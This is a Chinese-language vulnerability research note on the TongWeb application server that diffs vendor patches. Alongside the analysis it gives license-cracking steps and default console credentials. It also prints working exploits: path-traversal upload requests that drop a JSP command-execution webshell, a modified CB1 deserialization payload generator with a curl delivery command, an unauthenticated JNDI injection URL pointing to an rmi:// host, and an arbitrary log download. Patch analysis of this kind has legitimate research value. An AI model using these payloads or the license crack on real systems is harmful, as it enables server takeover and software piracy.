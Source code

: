 # TongWeb

## 环境搭建
Tongweb安装，双击`Install_TW6.1.5.13_Enterprise_JDK_Windows.exe`。一直点击下一步即可。安装完成后，从bin目录下的`startserver.bat`文件启动tongweb。如果控制台出现`TongWeb server startup complete`即启动成功

访问`http://ip:9060/console`，如果成功看到TongWeb管理控制台界面即成功。tongweb6.1登陆`用户名:thanos 密码:thanos123.com`

**license破解**

twnt.jar是license相关包，破解的twnt.jar放到lib目录下替换，并在tongweb根目录下创建一个空的license.dat。有的破解twnt.jar可能已经失效，例如启动tongweb时报错license过期。针对license过期的问题，修改`com.tongtech.a.b.a.a.a`类中`end_date`字段值，例如修改为2025-10-10

**修改jar包的技巧**

假如想要替换jar包中某个类的内容。新建一个IDEA工程，选取TongWeb对应的JDK版本，例如1.7，在src目录下，根据想要替换的类的package路径创建一个类，然后复制源类中的内容并进行修改，然后点击IDEA的build，生成out文件夹下对应的.class文件，复制出来。用7zip打开jar包，用生成的.class替换掉原文件即可。

**相关用户名和密码**
```
# console
thanos thanos123.com

# sysweb
cli cli123.com
```



## 补丁分析
补丁地址： http://www.tongtech.com/Services/Services-103_2.html

根据补丁的发布顺序，官方修复的信息大致如下
```
(1) 关闭命令行运维用户的上传文件功能
(2) 修复控制台命令执行、文件上传 、XSS和未授权访问问题
(3) 修复管理控制台文件上传和下载问题
(4) 修复未授权JNDI注入、控制台命令执行问题
(5) 修复命令执行、未授权访问、文件上传/下载/删除等问题
```

**(1) 关闭命令行运维用户的上传文件功能**

补丁修复位于`\applications\sysweb\WEB-INF\web.xml`，直接将补丁替换原文件即可，对比补丁和原文件，发现删除了如下几行
```
	<servlet>
		<servlet-name>upload</servlet-name>
		<servlet-class>com.tongweb.admin.jmx.remote.server.servlet.AppUploadServlet</servlet-class>
	</servlet>
	<servlet-mapping>
		<servlet-name>upload</servlet-name>
		<url-pattern>/upload</url-pattern>
	</servlet-mapping>
```

这个访问路径为`http://ip:9060/sysweb/upload`，默认的用户名`cli`，密码`cli123.com`

<details>
  <summary>AppUploadServlet代码</summary>
  <pre>
  <code>
protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        PrintWriter out = resp.getWriter();
        InputStream is = null;
        FileOutputStream fos = null;
        String tempPath = System.getProperty("tongweb.home") + File.separator + "temp";
        String filePath = tempPath + File.separator + "upload";
        try {
            Iterator i$ = req.getParts().iterator();
            while(i$.hasNext()) {
                Part p = (Part)i$.next();
                is = p.getInputStream();
                String header = p.getHeader("content-disposition");
                String fileName = this.parseFileName(header); // return header.substring(header.lastIndexOf("=") + 1, header.length());
                File file = new File(filePath, fileName);
                if (!file.exists()) {
                    File temp = new File(filePath);
                    if (!temp.exists()) {
                        temp.mkdir();
                    }
                    file.createNewFile();
                }
                fos = new FileOutputStream(file);
                byte[] buffer = new byte[1856219];
                while(true) {
                    int bytedata = is.read(buffer);
                    if (bytedata == -1) {
                        break;
                    }
                    fos.write(buffer, 0, bytedata);
                }
            }
            out.write("success!");
        } catch (IOException var18) {
            out.write("fail to upload\n");
            var18.printStackTrace();
        } finally {
            if (is != null) {
                is.close();
            }
            if (out != null) {
                out.flush();
                out.close();
            }
            if (fos != null) {
                fos.flush();
                fos.close();
            }
        }
    }
  </code>
  </pre>
</details>

下面发包过程存在一个坑，主要是AppUploadServlet代码中在获取fileName时用了parseFileName方法，该方法截取最后一个等号后的内容，然后和Tongweb的安装目录`C:\TongWeb6.1\temp\upload`进行拼接。

如果直接上传文件，一般filename="c.jsp"，这样拼接完的路径是`C:\TongWeb6.1\temp\upload\"c.jsp"`，而Windows又禁止文件名包含`\ / : * ? " < > |`其中的一个。所以在抓包时，将filename后面的引号去掉，并且可以跨目录
```
POST /sysweb/upload HTTP/1.1
Authorization: Basic Y2xpOmNsaTEyMy5jb20=
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryaYguOre6zCdYZhE1

------WebKitFormBoundaryaYguOre6zCdYZhE1
Content-Disposition: form-data; name="filename"; filename=../../applications/console/c.jsp
Content-Type: application/octet-stream

<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>
------WebKitFormBoundaryaYguOre6zCdYZhE1--
```

这个数据包还有个值得注意的点`Authorization: Basic Y2xpOmNsaTEyMy5jb20=`，Basic后的字段解码为`cli:cli123.com`。也就是sysweb模块是用base64用户名:密码做身份认证的，

**解决远程调试断点无法命中**

这个漏洞在远程调试时存在断点无法命中的问题。解决这个问题就需要打jar包。根据class的package全限定名`package com.tongweb.admin.jmx.remote.server.servlet`。将目录切到com的所在目录`TongWeb6.1/applications/sysweb/WEB-INF/classes/`下，利用如下命令进行打包
```
jar cvf testsysweb.jar *
```
然后将该jar包添加到lib中，这样将断点打到该jar包中的AppUploadServlet类中，即可命中。

**(2) 修复控制台命令执行、文件上传、存储型XSS和未授权访问问题**

这四个补丁都是针对于控制台的，分别看一下补丁的位置。

**（1）文件上传**

补丁打在了`com.tongweb.console.deployer.controller.Upload类`，这个的访问地址`/console/Upload`
```java
public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String method = request.getParameter("method"); // 想要调用upload方法，需要method参数为upload
    if (method.equals("upload")) {
        this.upload(request, response);
    }
}
```
upload方法利用组件commons-fileupload-1.3.3.jar进行文件上传操作，具体代码点击展开
<details>
  <summary>Upload代码</summary>
  <pre>
  <code>
    public void upload(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        response.setContentType("text/html");
        response.setContentType("text/html");
        response.setCharacterEncoding("UTF-8");
        long MAX_SIZE = 1073741824L;
        String tempPath = System.getProperty("tongweb.home") + File.separator + "temp";
        String filePath = tempPath + File.separator + "upload";
        File uploadApplicationDir = new File(filePath);
        if (!uploadApplicationDir.exists()) {
            uploadApplicationDir.mkdir();
        }
        String jsonp = request.getParameter("callback");
        DiskFileItemFactory dfif = new DiskFileItemFactory();
        dfif.setSizeThreshold(5120);
        dfif.setRepository(new File(tempPath));
        ServletFileUpload sfu = new ServletFileUpload(dfif);
        sfu.setSizeMax(1073741824L);
        PrintWriter out = response.getWriter();
        final HttpSession session = request.getSession();
        sfu.setProgressListener(new ProgressListener() {
            private long temp = -1L;
            public void update(long readBytes, long totalBytes, int item) {
                if (this.temp != readBytes) {
                    this.temp = readBytes;
                    if (readBytes != -1L) {
                        session.setAttribute("readBytes", "" + readBytes);
                        session.setAttribute("totalBytes", "" + totalBytes);
                    }
                }
            }
        });
        List fileList = null;
        try {
            fileList = sfu.parseRequest(request);
        } catch (FileUploadException var23) {...}
        Iterator fileItr = fileList.iterator();
        while(fileItr.hasNext()) {
            FileItem fileItem = null;
            String path = null;
            fileItem = (FileItem)fileItr.next();
            if (fileItem != null && !fileItem.isFormField()) {
                path = fileItem.getName();
                path.substring(path.lastIndexOf("/") + 1);
                String t_name = path.substring(path.lastIndexOf("\\") + 1);
                String u_name = filePath + File.separator + t_name;
                try {
                    synchronized(u_name) {
                        fileItem.write(new File(u_name));
                    }
                } catch (Exception var22) {
                    var22.printStackTrace();
                }
            }
        }
    }
  </code>
  </pre>
</details>

发送文件上传数据包，这里就不用关注filename是否包含引号的问题了，但是数据包可以看出console用的cookie做身份认证。
```
POST /console/Upload?method=upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBZshdxEqKekYAuiB
Cookie: console-58ef4bbb-6bb7=1D37708C8D90C4EB41147ED6DB076BEF

------WebKitFormBoundaryBZshdxEqKekYAuiB
Content-Disposition: form-data; name="filename"; filename="../../applications/console/k.jsp"
Content-Type: application/octet-stream

<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>
------WebKitFormBoundaryBZshdxEqKekYAuiB--
```

补丁修复，在upload方法的文件内容写入部分之前，加入`UploadFileValidation.checkUploadDeployFile(filePath, path);`检查。代码如下。主要做了两件事（1）判断路径是否存在目录穿越的`..` (2) 判断文件后缀是否为`.war、.ear、.rar、.jar`
<details>
  <summary>checkUploadDeployFile代码</summary>
  <pre>
  <code>
    public static ResultInfo checkUploadDeployFile(String filePath, String fileName) {
        ResultInfo result = new ResultInfo();
        result.setSuccess(true);
        try {
            File file = new File(filePath, fileName);
            File parentfile = new File(filePath);
            String oldParentPath = parentfile.getCanonicalPath();
            String newParentPath = file.getParentFile().getCanonicalPath();
            if (!oldParentPath.equals(newParentPath)) {
                result.setErrorInfo("Illegal upload path!");
                result.setSuccess(false);
                return result;
            }
            String realname = file.getName();
            String validate = realname.substring(realname.lastIndexOf("."));
            if (!validate.equals(".war") && !validate.equals(".ear") && !validate.equals(".rar") && !validate.equals(".jar") && !validate.equals(".car")) {
                result.setErrorInfo("Illegal document! fail to upload!");
                result.setSuccess(false);
                return result;
            }
        } catch (Exception var9) {
            var9.printStackTrace();
        }
        return result;
    }
  </code>
  </pre>
</details>

**（2）未授权访问**
```
    @GET
    @Path("disk")
    @Produces({"text/html"})
    public String listRoots() {
        StringBuffer sb = new StringBuffer();
        File[] roots = File.listRoots();
        File[] arr$ = roots;
        int len$ = roots.length;

        for(int i$ = 0; i$ < len$; ++i$) {
            File f = arr$[i$];
            sb.append(f.toString() + ",");
        }

        return System.getProperties().getProperty("os.name").toUpperCase().indexOf("WINDOWS") != -1 ? sb.substring(0, sb.length() - 1).replace("\\", "/") : sb.substring(0, sb.length() - 1);
    }
```
**（3）命令执行**

补丁位置位于`com.tongweb.admin.jmx.remote.server.servlet.RemoteJmxConnectorServlet`，其readRequestMessage方法增加了数据流内容校验，如果数据流中包含`java/lang/Runtime`或者`new ServerSocket`就抛出异常。其原本代码如下，明显的反序列化漏洞
```java
    private Message readRequestMessage(HttpServletRequest request) throws IOException, ClassNotFoundException {
        JMXInbandStream.setOutputStream((InputStream)null, 0L);
        InputStream in = request.getInputStream();
        ObjectInputStream ois = new ObjectInputStream(in);
        MBeanServerRequestMessage m = (MBeanServerRequestMessage)ois.readObject();
        StreamMBeanServerRequestMessage streamm = (StreamMBeanServerRequestMessage)m;
        if (streamm.isStreamAvailable()) {
            JMXInbandStream.setIncomingStream(new JMXChunkedInputStream(in));
        }

        logger.fine("Method id is: " + m.getMethodId());
        return m;
    }
```
请求入口是doPost。由于RemoteJmxConnectorServlet位于sysweb中，查看sysweb模块下的web.xml内容，发现此类的访问路径是`/rjcs`
```java
protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    this.processRequest(request, response);
}

protected void processRequest(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    try {
        String pathInfo = request.getPathInfo();
        if (pathInfo != null && pathInfo.trim().equals("/NotificationManager")) {
            this.requestHandler.getNotificationManager().getNotifications(request, response);
        } else {
            Message requestMessage = this.readRequestMessage(request);
            ...
	}
```
这样发包的payload如下（上文提到sysweb模块存在Authorization的验证）
```
curl -X POST "http://172.16.165.146:9060/sysweb/rjcs"  --data-binary @test2.txt -H "Authorization: Basic Y2xpOmNsaTEyMy5jb20="
```
需要注意的是，TongWeb中存在commons-beanutils.jar，但是和原生的commons-beanutils.jar不同，原生利用类`org.apache.commons.beanutils.BeanComparator`路径都变为了`com.tongweb.commons.beanutils.BeanComparator`，所以ysoserial无法直接使用，需要改一下CB1的生成过程
<details>
  <summary>CB1改造代码</summary>
  <pre>
  <code>
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.tongweb.commons.beanutils.BeanComparator;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
//
public class CB1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static TemplatesImpl generateTemplates(String code) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        cc.makeClassInitializer().insertBefore(code);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换为bytes
        byte[] classBytes = cc.toBytecode();
        return newTemplatesWithClassBytes(classBytes);
    }
    private static TemplatesImpl newTemplatesWithClassBytes(byte[] classBytes) throws Exception {
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", new byte[][]{classBytes});
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }
    public static byte[] getPayload() throws Exception {
        TemplatesImpl obj = generateTemplates("java.lang.Runtime.getRuntime().exec(\"calc.exe\");");
        final BeanComparator comparator = new BeanComparator();
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        queue.add("1");
        queue.add("1");
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        return barr.toByteArray();
    }
    public static void main(String[] args) throws Exception {
        byte[] payload = getPayload();
        saveFile("test2.txt",payload);
//        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(payload));
//        ois.readObject();
    }
    public static void saveFile(String filename,byte [] data)throws Exception{
        if(data != null){
            String filepath ="/Users/dxy/Downloads/" + filename;
            File file  = new File(filepath);
            if(file.exists()){
                file.delete();
            }else {
                file.createNewFile();
            }
            FileOutputStream fos = new FileOutputStream(file);
            fos.write(data,0,data.length);
            fos.flush();
            fos.close();
        }
    }
}
  </code>
  </pre>
</details>

**(3) 修复管理控制台文件上传和下载问题**

补丁位置：`com.tongweb.agent.com.FileTransferUtil`

**(4) 修复未授权JNDI注入、控制台命令执行问题**

未授权JNDI注入，poc如下
```
http://ip:9060/console/rest/jca/nameCheck?name=rmi://ip:1099/jzr8wb
```
漏洞点位于`com.tongweb.console.jca.controller.JCAController#checkJNDIName`
```
    @GET
    @Path("nameCheck")
    @Produces({"application/xml", "application/json"})
    public void checkJNDIName(@QueryParam("name") String name) {
        PrintWriter writer = null;
        try {
            writer = this.response.getWriter();
            writer.print(this.jcaService.checkJNDIName(name)); // checkJNDIName调用了lookup
            writer.close();
        } ...
    }
    
    public boolean checkJNDIName(String name) throws Exception {
        Object old = (new InitialContext()).lookup(name.trim());
    }
```

**(5) 修复命令执行、未授权访问、文件上传/下载/删除等问题**

**(1) Log任意下载漏洞**
先查询有那些日志，然后填入names参数下载对应日志
```
GET http://ip:9060/console/rest/log/allFiles
POST http://ip:9060/console/rest/log/downloadLog?names=server.log
```

**（2）修复管理控制台未授权访问漏洞**
com.tongweb.console.security.controller.UserController#create/update

**（3）命令执行漏洞**

**（4）console存在命令行执行漏洞**

**（5）修复任意文件删除漏洞**

**（6）访问日志-任意文件写入&路径穿越漏洞**
com.tongweb.console.webcontainer.controller.AccessLogController
com.tongweb.server.ExternalOptions

**（7）spring、CommonsCollections、XStream漏洞**
xmlpull、CommonsCollections、XStream组件升级

**（8）EJB远程调用反序列化漏洞**
com.tongweb.tongejb.server.httpd.ServerServlet

com.tongweb.tongejb.client.EjbObjectInputStream
